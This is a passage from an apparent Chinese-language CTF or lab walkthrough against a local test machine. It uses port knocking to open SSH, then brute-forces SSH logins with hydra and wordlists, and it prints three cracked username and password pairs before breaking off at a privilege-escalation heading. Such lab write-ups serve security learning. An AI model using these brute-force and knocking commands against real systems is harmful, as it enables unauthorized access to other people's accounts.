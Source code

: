 ## knock敲开端口

紧接上文，知道了 knock 的规则

用 nc 敲门也行

```
└─# knock 192.168.0.114 7469 8475  9842
```

再nmap查看22端口，就打开了

## ssh爆破

用上文中整理的字典

```bash
└─# hydra -L username.list -P password.list ssh://192.168.0.114
```

```
[22][ssh] host: 192.168.0.114   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.0.114   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.0.114   login: janitor   password: Ilovepeepee
```

随意登录一个看看

<img src=".\图片\Snipaste_2023-07-02_16-49-28.png" alt="Snipaste_2023-07-02_16-49-28" style="zoom:80%;" />

# 提权
